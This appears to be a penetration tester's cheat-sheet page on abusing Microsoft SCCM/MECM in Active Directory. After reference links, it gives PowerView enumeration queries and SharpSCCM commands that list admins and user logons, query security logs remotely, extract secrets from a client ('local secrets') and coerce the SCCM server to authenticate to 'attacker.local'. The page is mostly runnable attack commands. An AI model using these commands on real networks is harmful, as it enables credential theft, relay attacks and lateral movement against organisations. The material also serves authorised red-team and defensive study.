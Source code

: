 ```yaml
---
description: System Center Configuration Manager / Microsoft Endpoint Configuration Manager
---
```


# SCCM Abuse

- [https://www.thehacker.recipes/ad/movement/sccm-mecm](https://www.thehacker.recipes/ad/movement/sccm-mecm)
- [https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- [https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts](https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts)
- [https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/](https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/)
- [https://http418infosec.com/offensive-sccm-summary](https://http418infosec.com/offensive-sccm-summary)




## Enumeration

Look for CcmExec.exe processes:

```
Cmd > tasklist | findstr CcmExec
```

Search for SCCM servers in LDAP:

```
PV3 > Get-DomainComputer -LDAPFilter "(&(objectClass=computer)(cn=*sccm*))" | select -ExpandProperty dnsHostName
PV3 > Get-DomainComputer | ? {$_.Name -like "*sccm*"} | select -ExpandProperty dnsHostName
```




## Tools



### MalSCCM

- [https://labs.nettitude.com/blog/introducing-malsccm/](https://labs.nettitude.com/blog/introducing-malsccm/)
- [https://github.com/nettitude/MalSCCM](https://github.com/nettitude/MalSCCM)



### sccmwtf

- [https://blog.xpnsec.com/unobfuscating-network-access-accounts/](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)
- [https://github.com/xpn/sccmwtf](https://github.com/xpn/sccmwtf)



### SharpSCCM

- [https://github.com/Mayyhem/SharpSCCM](https://github.com/Mayyhem/SharpSCCM)
- [https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/](https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/)

Get SMS (Systems Management Server) and SC (Site Code):

```
Cmd > SharpSCCM.exe local site-info
```

List SCCM admins:

```
Cmd > SharpSCCM.exe get admins -sms <SMS> -sc <SC>
```

List user latest logons:

```
Cmd > SharpSCCM.exe get class-instances -sms <SMS> -sc <SC> SMS_R_System -p Name -p DistinguishedName -p IPAddresses -p LastLogonUserDomain -p LastLogonUserName -p LastLogonTimestamp -w "LastLogonUserName LIKE '%snovvcrash%'"
Cmd > SharpSCCM.exe get devices -p Name -p DistinguishedName -p IPAddresses -p LastLogonUserDomain -p LastLogonUserName -p LastLogonTimestamp -u snovvcrash@megacorp.local
```

Get resource (server) ID:

```
Cmd > SharpSCCM.exe get resource-id -sms <SMS> -sc <SC> -d <RESOURCE>
```

Execute WMI command on a resource:

```
Cmd > SharpSCCM.exe invoke admin-service -sms <SMS> -sc <SC> -q "EventLog('Security',4h) | where EventID == 4624 | order by DateTime desc" -r <ID>
```

Grab secrets from SCCM client (locally):

```
Cmd > SharpSCCM.exe local secrets -m disk
```

Coerce authentication from SCCM server (remotely):

```
Cmd > SharpSCCM.exe invoke client-push -t attacker.local
```
